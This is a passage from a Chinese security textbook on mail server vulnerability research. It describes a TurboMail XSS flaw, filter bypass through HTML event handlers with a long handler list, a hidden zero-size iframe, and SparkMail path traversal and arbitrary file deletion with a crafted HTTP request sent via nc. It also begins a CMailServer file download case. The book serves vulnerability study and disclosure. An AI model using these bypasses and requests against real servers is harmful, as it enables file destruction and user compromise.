大家注意看，`strTempx` 这个参数来源于 `tempIndexItem.m_sSubject`，这个地方就是直接获得邮件的主题部分，没有做任何限制。也就是说，邮件主题是什么内容，`tempIndexItem.m_sSubject` 参数就显示什么内容。但是，问题是在后面 TurboMail 的开发者利用 `Util.htmlspecialchars_equot` 函数对 `strTempx` 这个参数做了一个安全过滤。见下面 `Util.htmlspecialchars_equot` 函数的代码：

```java
String instr = "";
instr = in;
instr = replace(instr, "&", "&amp;");
instr = replace(instr, "\"", "&quot;");
instr = replace(instr, "'", "&#39;");
instr = replace(instr, "<", "&lt;");
```

```cpp
instr_ = replace(instr_, ">", "&gt;");
```

毫无疑问，如果 TurboMail 的开发者在显示邮件主题部分使用的参数不是 `strTempx`，而是被 `Util.htmlspecialchars_equot` 函数过滤的 `orgSubject` 时，该邮件系统就不会发生如此严重的 XSS 漏洞。但是，不幸的是 TurboMail 的开发者还是粗心地使用了几乎“裸体”的 `strTempx` 参数。于是，跨站漏洞出现了，恶意攻击也就可以进行了。

> **小提示**：在发现这个安全漏洞之后，我联系了 TurboMail 邮件系统的开发厂商，向他们汇报了该安全漏洞的情况。并且，我已收到他们进行修复的消息，会在其官方网站上同时发布补丁包程序。期待他们能够及时正视自己产品中的安全隐患，做出更加安全可靠的优秀产品。

#### 7.4.3 绕过安全过滤机制

通过上面的案例，我们看到了跨站漏洞的危害性；借助一个简单的跨站漏洞，攻击者可以获取到用户的私人信息，甚至可以借助跨站漏洞，诱使用户访问一些包含有恶意攻击代码的网址。例如，`<iframe src=xxx width=0 height=0></iframe>` 这段脚本代码的意义是在当前网页中新建一个窗口，它访问的网址 `xxx` 可以是一个包含有恶意攻击代码的网址。而此刻，用户丝毫不会察觉自己已经打开了一个包含有恶意攻击代码的网址，因为新建的这个窗口大小为 0，它的长宽大小为 0 个像素。用户就这样不知不觉地被诱使访问了一个恶意网址。

为此，一些比较优秀的邮件服务程序在为用户提供 Web Mail 服务的时候，就会注意对邮件内容中的网页脚本代码进行安全过滤。

最为常见的过滤方式就是检查当前用户输入的数据中包含不包含“`<script>`”这个标签。“`<script>`”是 HTML 标准中规定的、用来表明网页需要使用脚本代码的 HTML 标签。例如我们前面用来给大家演示的那个窃取用户 Cookie 信息的代码中就使用了“`<script>`”标签。它的实现代码可以参看下面的代码。

```vb
function forbidXSSCode(sString)
    if not isnull(sString) then
        sString = replace(sString, "<script>", "")
        sString = replace(sString, "script", "")
        sString = replace(sString, "</>", "")
        sString = replace(sString, "<br>", "")
        forbidXSSCode = sString
    end if
end function
```

一旦程序过滤了“`<script>`”标签，那么，邮件中的脚本代码就不会被浏览器解析执行，从而避免 XSS 漏洞引发的恶意攻击。

可是，单纯地过滤“`<script>`”标签是一种不全面的安全防护方法，攻击者还可以借助其他的方法来达到运行网页脚本代码的目的。这里，事件消息就是一个不错的选择。

当浏览器软件在加载一个网页文件时，这个过程中会发生很多事件。例如，浏览器解析到当前网页中包含一个图片时，就会开始加载这个图片，这个就称之为一个“事件”。在这个事件发生的时候，网页代码其实完全可以响应到这个事件。怎么响应呢？借助 `onxxxx` 这类的属性就可以响应。举一个例子来说明一下这个过程。

“`</img>`”是一段网页代码，其中“img”这个 HTML 标签代表的意思就是让浏览器加载一个图片，而该图片的地址就是“src”属性指定的。在这里，我们看到“src”的值为“xxx”，这是一个不存在的路径地址。当浏览器试图按照这个地址来加载图片时就会出错，这就是一个错误事件。为了响应这个事件，“onerror”这个属性就会被触发。注意看，为什么是“onerror”这个属性来响应图片加载错误的事件呢？因为它的名字中包含了答案，“error”就是错误的意思。

当浏览器加载图片出错这个事件发生的时候，“onerror”属性就会响应这个事件，它会执行“javascript:alert();”这段脚本代码，从而最终弹出一个对话框。我们把这段代码保存为 1.htm 文件，用浏览器打开它，你就会看到效果，如图 7-41 所示。

这个时候，我们就想到了一个绝好的方法。前面不是说，邮件服务程序为了安全过滤了“`<script>`”标签，来达到阻止 XSS 脚本运行吗？现在，我们可以借助事件消息这种机制来重新获得执行脚本代码的机会，从而绕过了邮件服务程序的安全防护机制。

下面我们将一些常见的事件消息列举在这里，在实际漏洞挖掘的时候，大家可以用来进行参考。

图 7-41 利用事件也可以执行任意脚本代码

- 1. onFSCommand()（主要用在 flash 里，用于执行任意命令）
- 2. onAbort()（当用户放弃让浏览器加载图片时发生）
- 3. onActivate()（当网页中对象被激活时发生）
- 4. onAfterPrint()（当用户打印网页时发生）
- 5. onAfterUpdate()（当网页对象更新数据时发生）
- 6. onBeforeActivate()（当网页中对象被激活前发生）
- 7. onBeforeCopy()（当用户在网页中选择复制时发生）
- 8. onBeforeCut()（当用户在网页中使用剪贴动作时发生）
- 9. onBeforeDeactivate()（当对象失活前发生）
- 10. onBeforeEditFocus()（当编辑框被选中时发生）
- 11. onBeforePaste()（当用户使用粘贴时发生）
- 12. onBeforePrint()（当用户准备使用打印时发生）
- 13. onBeforeUnload()（用户准备关闭浏览器时发生）
- 14. onBlur()（当另外一个窗口出现时发生）
- 15. onBounce()（这个主要针对 marquee 对象，当 marquee 对象运动时发生）
- 16. onCellChange()（数据对象变化时发生）
- 17. onChange()（select、text、TEXTAREA 三个对象失去焦点并且数据改变时发生）
- 18. onClick()（form 中发生鼠标点击时发生）
- 19. onContextMenu()（当用户使用鼠标右键时发生）
- 20. onControlSelect()（当用户试图选择网页对象时发生）
- 21. onCopy()（当用户使用拷贝命令时发生）
- 22. onCut()（当用户使用剪贴动作时发生）
- 23. onDataAvailable()（当网页中的选择对象被用户选择时发生）
- 24. onDataSetChanged()（数据发生改变时发生）
- 25. onDataSetComplete()（数据加载完毕时发生）
- 26. onDblClick()（当用户用鼠标双击网页中元素时发生）
- 27. onDeactivate()（activeElement 对象发生改变时发生）
- 28. onDrag()（当用户拖动对象时发生）
- 29. onDragEnd()（用户拖动对象完毕后发生）
- 30. onDragLeave()（用户拖动对象离开使用区域时发生）
- 31. onDragEnter()（用户拖动对象进入使用区域时发生）
- 32. onDragOver()（用户拖动对象到使用区域范围时发生）
- 33. onDragDrop()（用户拖动对象到浏览器窗口时发生）
- 34. onDrop()（用户放置对象到浏览器窗口时发生）
- 35. onError()（加载文档或者图片出错时发生）
- 36. onErrorUpdate()（文档数据更新出现错误时发生）
- 37. onExit()（退出时发生）
- 38. onFilterChange()（过滤器完成时发生）
- 39. onFinish()（marquee 结束动作时发生）
- 40. onFocus()（对象被选中时发生）
- 41. onFocusIn()（对象得到焦点时发生）
- 42. onFocusOut()（对象焦点失去时发生）
- 43. onHelp()（弹出帮助时发生）
- 44. onKeyDown()（当用户按下按键时发生）
- 45. onKeyPress()（当用户按下按键或者按住不放时发生）
- 46. onKeyUp()（当用户松开按键时发生）
- 47. onLayoutComplete()（当页面预览或者打印时发生）
- 48. onLoad()（进行浏览器加载时发生）
- 49. onLoseCapture()（失去焦点时发生）
- 50. onMouseDown()（当用户按下鼠标按键时发生）
- 51. onMouseEnter()（鼠标滑到网页对象范围时发生）
- 52. onMouseLeave()（鼠标离开网页对象范围时发生）
- 53. onMouseMove()（鼠标在网页对象范围领域活动时发生）
- 54. onMouseOut()（鼠标离开网页对象范围时发生）
- 55. onMouseOver()（鼠标在网页对象范围领域时发生）
- 56. onMouseUp()（鼠标按键被松开时发生）
- 57. onMouseWheel()（用户使用鼠标滚轮时发生）
- 58. onMove()（页面被移动时发生）
- 59. onMoveEnd()（页面移动完毕时发生）
- 60. onMoveStart()（页面移动开始时发生）
- 61. onPaste()（用户进行粘贴时发生）
- 62. onProgress()（用户等待进度条时发生）
- 63. onPropertyChange()（修改网页对象属性时发生）
- 64. onReadyStateChange()（类似 onPropertyChange）
- 65. onReset()（表单内容重置时发生）
- 66. onResize()（用户修改对象大小时发生）
- 67. onResizeEnd()（用户修改对象大小结束时发生）
- 68. onResizeStart()（用户修改对象大小开始时发生）
- 69. onRowEnter()（用户修改数据对象时发生）
- 70. onRowExit()（退出修改时发生）
- 71. onRowDelete()（删除数据时发生）
- 72. onRowInserted()（插入数据时发生）
- 73. onScroll()（使用滚动条时发生）
- 74. onSelect()（对象被选中时发生）
- 75. onSelectionChange()（选择对象发生改变时发生）
- 76. onSelectStart()（被选中开始时发生）
- 77. onStart()（marquee 对象开始运动时发生）
- 78. onStop()（用户停止对象时发生）
- 79. onSubmit()（网页表单被提交时发生）
- 80. onUnload()（数据没有被加载时发生）

#### 7.4.4 操作服务器文件系统的安全漏洞

当我们使用浏览器登录某一个 Web Mail 系统后，在 Web Mail 提供给我们的网页中，能够看到很多用来操作邮件的功能。除去“写邮件”，我们查看某一封电子邮件的时候，在其网页中就会显示用来删除邮件、回复邮件、转发邮件等功能的图标，如图 7.42 所示。

每一封电子邮件在电子邮件服务器上都会以某种格式存储在其硬盘上。有的邮件服务程序将用户的电子邮件作为单独的文件，并将其存放在对应用户名所在的文件目录当中；有的邮件服务程序则是将用户的电子邮件按照某种固定格式统一存放在一个文件当中，根据时间顺序和所在邮箱文件夹名称分类；有的邮件服务程序则将用户的电子邮件作为数据保存进入数据库中，通过用户名一一对应。

对于采用文件保存电子邮件的模式来说，我们在通过 Web Mail 操作一份电子邮件的时候，其实质上就是 Web 应用程序通过邮件服务程序在操作服务器上的某个文件。如果我们能够找出一种漏洞，使得 Web Mail 操作的具体文件名被我们指定，那么我们就可以通过 Web Mail 系统来越权操作服务器上的任意文件，而不再单单只是存储电子邮件用的文件。

正常情况下，我们在浏览器中使用 Web Mail 的时候，我们发送给远程 Web Mail 的数据是被系统固定死的，用户不能随意修改，也看不到。但实际上，这些数据都是通过浏览器依据 HTTP 协议发送给 Web Mail 系统的，我们可以截获到这些数据。WinSock Expert 就是一款专门用来截获浏览器向外发送数据包的工具。

图 7.43 WinSock Expert 选择监听的程序的窗口

下面通过 Web Mail 删除一封电子邮件为例，我们使用 WinSock Expert 截获一下浏览器发送给远程 Web Mail 系统的数据包。

图 7.44 WinSock Expert 处于监听状态

运行 WinSock Expert（在运行 WinSock Expert 程序之前，请关闭杀毒软件或者安全监视软件，因为这些软件会将 WinSock Expert 误认为恶意攻击者工具而自动删除），在其界面中，点击图标，出现“选择监听的程序”窗口，如图 7.43 所示。到此我们需要选择代表浏览器的进程，这里使用的是 360 安全浏览器，所以应当选择其中“360SE.exe”这个进程，选择后，点击“打开”按钮。此刻，WinSock Expert 便处于监听浏览器发送接收数据包的状态中，如图 7.44 所示。

图 7.45 WinSock Expert 截获到了浏览器发送的数据包

回到浏览器中，我们选择一封电子邮件后，使用网页中提供的删除功能，删除该邮件；删除成功后，回到 WinSock Expert，我们看到此刻的 WinSock Expert 界面发生了变化，如图 7.45 所示。WinSock Expert 上半部分中，我们看到的信息就是被截获到的浏览器向外发送的数据包。

```http
POST /mailmain.asp?type=delmsg HTTP/1.1
X-Requested-With: XMLHttpRequest
Accept-Language: zh-cn
Referer: http://127.0.0.1:8080/c_/mailmain.asp?type=showmsg&mbid=0&msgid=162562013314_2156_tm&mbtype=new&page=null
Accept: application/json, text/javascript, */*
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR 2.0.50727)
Host: 127.0.0.1:8080
Content-Length: 44
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: JSCookies=0

mbtype=new&delid=162562013314_2156_tm
```

上面这段代码就是一个完整的 HTTP 数据包信息，我们最为关心的是两个部分。第一个部分是“POST /mailmain.asp?type=delmsg”，这代表着我们最终数据被哪一个 Web Mail 文件接收。

从代码中我们看到，最终接收数据包的 Web 文件是 mailmain.asp 文件；也就是说，执行邮件删除任务的工作肯定与 mailmain.asp 文件有关。因此我们可以去查看这个 mailmain.asp 文件的源代码，从中分析它在删除电子邮件时是不是存在可以被利用的漏洞（这个分析过程我们在下面一小节中将结合具体案例来给读者解释）。

其次，我们看到在问号的后面有一个“type=delmsg”，这里的 type 是一个参数，Web 应用程序用这个参数来接收外部数据，不同的 type 值可能代表不同的任务；“delmsg”则是代表此刻 type 的值为 delmsg，也就是删除邮件。第二个部分是“mbtype=new&delid=162562013314_2156_tm”，前面第一个部分中 mailmain.asp 文件准备执行删除邮件任务，而具体要被删除的邮件则在这个部分中被指定。mbtype 变量代表的值 new，告诉 mailmain.asp 文件现在要删除的电子邮件在 new 这个邮箱文件夹中，delid 变量代表的值 162562013314_2156_tm 就是具体电子邮件所在文件的完整文件名。

有了这两个部分，Web Mail 系统就可以顺利执行邮件删除任务。

此刻，我们注意到一个细节，Web Mail 系统删除邮件时的具体文件名来自于浏览器提交给它的参数。如果我们模拟浏览器的工作，向 Web Mail 系统发送一个数据包，将其中代表具体被删除邮件文件名的参数值改为服务器上某个系统文件的名称，如果 Web Mail 系统没有做安全检查而直接根据数据包中参数的值执行邮件删除任务，那么我们就等于借 Web Mail 的手删除了远程服务器上的系统文件，从而实现对远程服务器文件系统的破坏攻击。

下面，我们就来看一个真实的案例。

#### 7.4.5 火花邮 1.5 版本多个文件系统破坏漏洞

SparkMail Mail Server，中文名火花邮。根据官方的解释，它是一个简单易用、安全的邮件服务器软件，支持 SMTP、POP3、WEBMAIL 等邮件核心服务。在其官方网站 http://www...

## 第7章 邮件服务程序的漏洞挖掘技术

在 sparkmail.cn 上，我们甚至可以发现这款软件有一个 400 电话支持。

在 2010 年初，我在测试中发现该邮件服务程序存在多个安全漏洞，并在第一时间将漏洞信息通报给火花邮官方，但很可惜，我没有收到任何反馈信息。后来在国内某安全杂志上，我公布了这些安全漏洞。现在，我们来看一看我当时是如何挖掘出火花邮的这些安全漏洞的。

> **小贴士**：请读者注意，当时测试的火花邮版本为 SparkMail Mail Server 的最新版本，即 SparkMail Mail Server 1.5 版本。

首先，从官方网站下载了该版本的 SparkMail Mail Server，在本地简单架设起来。这款软件的安装十分简单，过程完全是傻瓜化的。安装完毕后，在我们系统桌面的右下角就出现了一个带有绿色箭头标志的图标，证明此刻 SparkMail Mail Server 已经成功运行在我们的系统上。

> **小贴士**：注意，这里在使用 SparkMail Mail Server 时，最好在自己的系统上不要安装其他 Web 服务软件，主要是防止对 8080 端口的占用，因为 SparkMail Mail Server 会使用 8080 端口作为 WebMail 的服务端口。

从 SparkMail Mail Server 的使用说明上看，该软件支持传统的邮件发送接收模式以及 WebMail 模式。本来是打算测试一下传统模式下该软件是不是存在安全漏洞，忽然一想，朋友要求我首先测试它的 WebMail，说这个功能是他们经常需要使用的。为此，我决定从 SparkMail Mail Server 的 WebMail 入手来开始测试分析。

对于 WebMail 来说，由于它就类似于一个 Web 应用程序，有 Web 代码文件，为此，我觉得发现漏洞最好的方法就是代码审计。虽然说这种方法会使我的眼睛疲劳，但是，从实际效果来讲，代码审计发现漏洞的可能性和准确性要远远大于黑盒测试。黑盒测试有很大的盲目性并且浪费时间。当然，这需要审计者具有较好的技术水平，并且 WebMail 的代码有一定的可读性。

安装完 SparkMail Mail Server 后，我们可以发现该软件在安装目录下会产生三个文件目录，分别为：

- mailadmin（邮件管理软件所在目录）
- maildata（用户数据以及软件配置数据所在目录）
- mailserver（SparkMail Mail Server 服务软件核心目录）

这里最为关键的目录就是 mailserver 目录。


打开 mailserver 目录，我们发现除去 SparkMail Mail Server 服务软件需要的可执行文件以及动态库文件，其中有一个目录的名字非常引人注意：wwwroot。对于建立过网站的读者朋友来说，这个名字太熟悉了，难道说 SparkMail Mail Server 将自己的 WebMail 功能全部安装进入了这个文件目录？如图 7.46 所示。

看来没有问题，SparkMail Mail Server 的 WebMail 核心文件应该都在这两个文件目录中了。首先，我们来看看 WebMail 这个文件目录。

在 WebMail 文件目录下，总共有六个子文件目录。其中，www 这个文件目录是 SparkMail Mail Server WebMail 的根目录。在这个目录中，有一个文件名为 `main.xphp`，这是 WebMail 运行过程中，用户所有行为的调度文件。很纳闷的是这个文件的后缀名非常有意思，xphp 怎么看怎么都像是 php。由于 SparkMail Mail Server 整合了 php 以及 Apache 环境，所以 SparkMail Mail Server 的开发者将自定义被解析文件类型，这里的 xphp 其实就是 php 文件，你可以看看它的代码格式，完全就是 php。

当我们访问 SparkMail Mail Server 的 WebMail 后，无论我们进行邮件发送，还是邮件查看，所有的参数都首先发送给 `main.xphp`，然后 `main.xphp` 会根据相应的行为来调用 `prog` 目录下的 `xphp` 文件。如图 7.47 所示。


图 7.47  火花邮 Web Mail 的核心程序

既然选择了代码审计的方式来检查 SparkMail Mail Server 的 WebMail 是否存在安全漏洞，那么我们就开始吧。

首先，我们阅读的文件是 `Storefolder.xphp`，这是一个用户用来管理 WebMail 中邮件目录即“邮箱”的文件。一般情况下，用户的 WebMail 中已经存在的邮箱为收件箱、发件箱、已发送邮件、已删除邮件等，如图 7.48 所示。

从 `Storefolder.xphp` 代码中，我们发现一个非常有意思的函数 `StoreFolder_Rename()`，从这个函数的名字我们猜测 SparkMail Mail Server 是支持用户重命名邮箱的。但是，很遗憾的是，这个函数存在安全隐患。让我们看看这个函数的实现代码：

```php
function StoreFolder_Rename(){
    global $sess;
    global $msgdb;
    global $req;
    global $_config;
    global $mailstore;
    global $userdb;

    $oldfoldername = trim($req['oldname']);
    $newfoldername = trim($req['newname']);
    $oldfoldertype = foldername_type($oldfoldername);
    $newfoldertype = foldername_type($newfoldername);

    $res = array();
    if ($oldfoldertype != $newfoldertype){
        $res['result'] = fetres('invalidname');
        json_response($res);
        return;
    }

    if (strcasecmp($oldfoldertype, $_config['foldertype']['mailbox']) == 0){
        if (foldername_isreserve($oldfoldername) == true
            || $mailstore->CheckFolderName($oldfoldername) == false
            || foldername_isreserve($newfoldertype) == true
            || $mailstore->CheckFolderName($newfoldertype) == false){
            ...
        }
    }
}
```


图 7.48  默认情况下的几个邮箱

大家注意看在最后的这个 if 判断中，两次函数使用 `CheckFolderName` 检查邮箱的文件目录名，这个函数来自于 libs 目录下的 `class.mailstore.php` 中，我们看一看这个函数的具体代码实现：

```php
function CheckFolderName($foldername)
{
    global $_config;

    $ch1 = substr($foldername, 0, 1);
    if ($ch1 == $_config['foldername_separator']) {
        return false;
    }

    if (strpos($foldername, "..") !== false) {
        return false;
    }

    $len = strlen($foldername);
    if ($len <= 0) {
        return false;
    }

    while (--$len >= 0) {
        $ch = substr($foldername, $len, 1);
        if (in_array($ch, array('"', "'", '&', ';', '<', '>', '\\', '/', '=', '?', '%', '@', $_config['foldername_prefix']))) {
            return false;
        }
    }

    return true;
}
```

看起来这个函数是一个检查过滤函数，尤其是检查文件目录名中是不是存在可能的非法字符，并且如果发现存在的非法字符就会阻止函数正确执行，所以我们在创建和删除邮箱时，不会发生跨目录删除其他文件目录的漏洞。

本来这个过滤函数没问题，完全可以阻止某些潜在的攻击行为。但是，大家注意看 `StoreFolder_Rename()` 函数中最后的那个 if 中，两次调用 `CheckFolderName` 函数时，第一次传递给该函数的参数是 `$oldfoldername` 即被修改文件目录名，而第二次传递给 `CheckFolderName` 函数的参数却成为了 `$newfoldertype`，即新文件目录类型！

SparkMail Mail Server 粗心的开发人员错误地传递了被检查参数名称，这里其实应该传递的参数是新文件目录的名称参数 `$newfoldername`！

由于 SparkMail Mail Server 的邮箱是对应于硬盘上实际的一个文件目录，`StoreFolder_Rename()` 函数错误的代码检查机制，导致用户可以新建一个目录，然后将其移动到其他任意目录下。

现在，让我们测试一下看看。首先，登录 SparkMail Mail Server 的 WebMail，然后右击“我的文件夹”，如图 7.49 所示。

在出现的菜单中，我们选择“新建邮件夹”，并且输入名称“1”。此时，在 SparkMail Mail Server 所在的服务器上，对应该用户的目录下就会出现一个名为“1”的文件夹，如图 7.50 所示。


这个时候，让我们回到浏览器中，在“1”文件目录上右击鼠标，如图 7.51 所示。

此时，菜单中出现了“重命名”选项，点击它，让我们输入“../1”，如图 7.52 所示。


点击“保存”按钮。此刻，我们发现原本是“1”名称的邮箱变为了“../1”，同时让我们回到 SparkMail Mail Server 所在的服务器，看一看用户的邮箱目录跑哪里去了，如图 7.53 所示。

原本是在用户目录下的 1 邮箱，此刻竟然跑到了用户目录的上一层，这一切都归因于程序员错误的参数过滤导致。这种漏洞，会为我们带来什么攻击效果呢？你可以将过大的文件利用这个漏洞不断转移到服务器的其他目录下，造成服务器空间不足；因为在删除的过程中，这个文件夹是不会被删除的，“../” 符号会被过滤，为此，你就可以不断地建造文件夹，然后转移大文件到这些文件夹中，不断占用磁盘空间。但总体来说，这个漏洞应该属于程序开发人员的马虎，倒不至于造成严重的安全隐患。


接下来，让我们再来看一看代码，能不能发现什么真正能够造成威胁的安全漏洞呢？这一次，我选择的文件是 `class.mailstore.xphp`。在这个文件中，有一个用来进行用户邮件删除的函数 `DeleteMessage`。这个函数存在绝对的安全隐患，让我们来看一看，注意看文字部分解释。

```php
function DeleteMessage($foldername, $mixmsgid)
{
    if($this->_homepath ... )
    {
        return false;
    }
}
```


```php
$foldername = xmail_utf7_encode($foldername);
$folderpath = $this->_homepath . "/" . $foldername . "/"; // 这里的$foldername是对应邮件的名称，来自用户提交的参数
// 如收件箱，那么$foldername就等于"inb6"
if (is_dir($folderpath) == false) // 检查这个参数是不是一个文件目录
{
    return false;
}

$allmsgid = array();
if (is_array($mixmsgid) == false)
{
    array_push($allmsgid, $mixmsgid); // 将被删除的邮件标志放入一个数组中
    // 对于SparkMail Mail Server来说，每一封邮件的标志就是该邮件的文件名称
}
else
{
    $allmsgid = $mixmsgid;
}

$resultarr = array();
foreach ($allmsgid as $msgid)
{
    if (($msgid == "..") || $msgid == "." || $msgid == "")
    {
        continue;
    }

    $msgpath = $folderpath . "/cur/" . $msgid; // 注意看这里：每一个邮箱都包含三个子目录：cur、new、tmp
    // 一般来说邮件都被存放在cur目录，除非是新到的邮件。这个时候，程序开始组合邮件的完整路径地址。
    // 但是，由于这里$folderpath来自用户提交，那么用户就可以指定$folderpath到服务器上的任意目录。
    // 你还会说cur这目录并不是任意目录下都有啊，问题是此刻$msgid这个变量用户也可以修改提交。
    // 由于$msgid没有过滤"../"这个字符，导致我们就可以将cur目录给消除，从而访问到任意文件。

    if (is_file($msgpath) == false)
    {
        $resultarr[$msgid] = true;
        continue;
    }

    if (@unlink($msgpath)) // 开始删除指定的邮件
    {
        $resultarr[$msgid] = true;
    }
    else
    {
        $resultarr[$msgid] = false;
    }
}

if (is_array($mixmsgid) == false)
{
    return $resultarr[$mixmsgid];
}
```

```c
getuid($res[uid], org);
```

通过上面的解释，我们看到，由于该函数在实现中对来自用户的变量 `$foldername`、`$mixmsgid` 没有进行任何限制与过滤检查，用户只需要指定服务器上存在的文件目录以及文件名称，`DeleteMessage` 函数就会对其进行删除操作。为此，我们可以首先利用 WinSock Expert 截获一次正常删除邮件的数据包，然后复制其中的数据到一个 txt 文件中，并修改其中的数据，如下面所示。

```http
POST /main.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Referer: http://127.0.0.1:8080/
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; .NET CLR 2.0.50727)
Host: 127.0.0.1:8080
Content-Length: 312
Connection: Keep-Alive
Cache-Control: no-cache
Cookie:

form1=json&json={"mainaction":"strgitem","subaction":"delete","type":"mailbox","items":[...],"id":"index.htm"}&sid=...
```

注意上面这段代码中，`foldername` 对应就是前面的 `$foldername` 变量，我们利用 `..%2F` 即 `../` 符号，将其指定为火花邮 Web Mail 所在的根目录路径，而 `id` 对应的就是前面的 `$mixmsgid` 变量，我们将其指定为火花邮 Web Mail 的首页文件，其他数据无需修改。


图 7.54：利用 nc 提交修改后的数据包

现在，我们要模拟浏览器向远程火花邮的 Web Mail 系统提交我们修改后的数据包。这里可以利用 `nc.exe` 程序来提交，该程序在命令行下工作。我们打开系统的命令行窗口，切换到 `nc.exe` 程序所在文件目录下，输入命令“`nc 火花邮程序所在 IP 地址 端口号 < 数据包文件名`”即可完成将数据包提交给 Web Mail 系统，如图 7.54 所示。

提交成功后，我们再次打开浏览器访问火花邮 Web Mail 系统，你会发现，火花邮的 Web Mail 已经无法正常工作了，如图 7.55 所示。

利用这个漏洞，任意一个 Spark Mail Server 的 Web Mail 用户都可以删除服务器上的任意文件，甚至直接破坏邮件系统本身。


图 7.55 火花邮的 Web Mail 首页文件被恶意删除了

> 小贴士：在测试中也发现 DeleteMessage 函数不能删除零字节的文件以及邮件尾部数据库文件。

#### 7.4.6 泄露服务器信息的黑手

如果说前面给大家介绍的 Web Mail 的安全漏洞已经让大家领教到其危害性，那么接下来的安全漏洞则可能会让我们获得控制远程邮件服务器的权限。

任何时候，使用电子邮件服务的用户们只能通过邮件服务程序来发送、接收电子邮件，丝毫不会去干扰到程序所在服务器系统。虽然，上面一小节中的安全漏洞已经让普通用户越权能够删除服务器系统上其它的文件，但是，还不足以让服务器上的数据被普通用户获取到，更不要谈去控制服务器系统。可是，安全漏洞总是这样让我们吃惊，一个小小的安全漏洞兴许就能够让整个邮件服务器的安全防护彻底失去效果。

在我们发送一封电子邮件的时候，我们常常会附带一些文件，如自己的照片，然后发送给远方的朋友，这些照片我们称之为邮件的“附件”。邮件服务程序将这些附件常常以文件的形式保存在服务器上。用户在打开电子邮件后，根据一定的链接就会直接下载到这些附件。看起来很平常的过程，却在不经意间出现了安全漏洞。

邮件中的附件一般都是根据用户的信息来保存在服务器不同的文件目录中，用户在打开一封电子邮件后应当只能下载其中链接中被提供的附件，用户不能随意下载他人的附件，邮件服务程序不应当提供超出用户本身范围的附件下载链接，但问题是，并不是每一个用户都这样中规中矩，如果他利用浏览器数据包截获的手段分析下载附件的链接格式，猜测出服务器文件系统路径，邮件服务程序如果不严格审查该下载请求，最终结果就是用户会下载到服务器上超出用户权限范围的其它文件信息，造成服务器信息泄露。如果这其中包含有服务器一些管理配置信息，恶意攻击者就会根据这些信息从而获得控制服务器的最高权限。下面我们将会给大家展示一个真实的案例。

#### 7.4.7 CMailServer 远程任意文件下载漏洞

开始本文前，我们先来看一段介绍：CMailServer 邮件服务器于 2000 年 8 月问世，是基于 Windows 平台的邮件服务器软件，支持互联网邮件收发、网页邮件收发（Webmail）、邮件杀毒、防垃圾邮件、邮件过滤、邮件监视、邮件备份、邮件转发、多域名邮件收发和邮件发送验证等功能，是目前国内非常流行的邮件服务器软件和下载量最大的邮件服务器软件。CMailServer 以其设置简单、容易使用，出色的稳定性和灵活的 Web 邮件服务在众多邮件服务器软件中一枝独秀。这段来自 CMailServer 邮件服务软件的帮助信息，告诉我们这款软件曾经是多么流行。自从 2006 年以后，这款出色的软件似乎就停止了升级。但是，自己在检测一台服务器的时候，发现其上竟然还是安装有这个软件，于是决定研究一下这款邮件服务软件。

CMailServer 邮件服务软件又名远志邮件服务软件，其官方网站 http://www.yzsoft.com/ 上提供的版本为 5.4.6。查询了一下，这个版本存在一个严重的远程溢出漏洞，不过似乎没有涉及到脚本方面的漏洞，因为 CMailServer 邮件服务软件还是提供有很好的 WebMail 功能。在 5.4.6 之前的版本中，CMailServer 邮件服务软件出现过很多的安全漏洞，其中涉及到脚本，也就是 WebMail 方面的就有 SQL 注入漏洞，以及跨站漏洞。在后期升级中，CMailServer 邮件服务软件的开发者好像加强了对 WebMail 的安全检查，修补了大量漏洞。现在，让我们重新看一看能不能再次发现 CMailServer 邮件服务软件脚本方面的漏洞。

首先，通过网页我们申请了一个新用户“test”。这里说一下，CMailServer 邮件服务软件的 Web Mail 功能主要采用 IIS 相结合的方法来实现，而且是以 ASP 脚本为基础的 Web 应用程序，所以在使用上非常简单，当然需要你在系统上同时安装好 IIS 才可以使用。用“test”用户登录 CMail Server 邮件服务软件的 WebMail 系统，我们新建一封邮件，在邮件发送目的处填写 test 自己的邮箱地址，因为这是测试。注意，此刻，我们选择上传一个文件作为邮件的附件，原因大家看后面就知道了。邮件内容可以随意填写；最后，发送该测试邮件。


图 7.56 注意浏览器底部显示的信息

很快，CMailServer 邮件服务软件的 WebMail 系统就能够接收到我们的测试邮件；现在请大家将鼠标移动到邮件附件的位置上，如图 7.56 所示。我们注意看，浏览器的底部状态栏中显示出一个 URL 地址，其内容为：http://127.0.0.1/mail/download.asp?urlOfAttach=%2Ffmaildata%2Ftest%2F1259812019818%2F1%2FUCInputUriList%2Edat。这是一个典型的以文件名为参数的下载调用，其中 urlOfAttach 所代表的内容是一个文件名称。我们此刻到安装有 CMailServer 邮件服务软件的服务器上看一下，如图 7.57 所示。


图 7.57 CMailServer 在服务器上的文件目录

在服务器上，CMailServer 邮件服务软件创建了一系列的文件目录，以“webmaildownload”为主目录，下面是用户名目录，接着是一个随机数字目录，然后是邮件 ID 标号，最后就是该用户所有的邮件信息。其中，我们清楚地看到，邮件信息被分为四个部分：body.txt、Head.txt、mail.eml、UCInputUriList.dat。这四个部分正好对应的就是 CMailServer 邮件服务软件的 WebMail 系统向用户提供的操作邮件的几个功能，如图 7.58 所示。


图 7.58 一个新邮件被按照功能区分为四个文件

CMailServer 邮件服务软件将用户的邮件拆解为不同的部分，从而满足用户下载邮件附件、邮件头信息以及原始邮件使用。你可以将鼠标分别移动到图 7.56 黑色圈左侧部分，然后查看浏览器底部状态栏对应的网址，你就会发现这些网址的参数正好指向这些图 7.57 所对应的文件路径信息上。

此刻，我们不得不怀疑，这种以文件名作为参数的方式是不是存在着一定安全隐患。在常见的对 Web 应用程序的安全测试中，我们就发现通过修改参数的内容，就可以让程序返回我们指定的任意文件信息，从而造成远程服务器文件信息泄露漏洞。

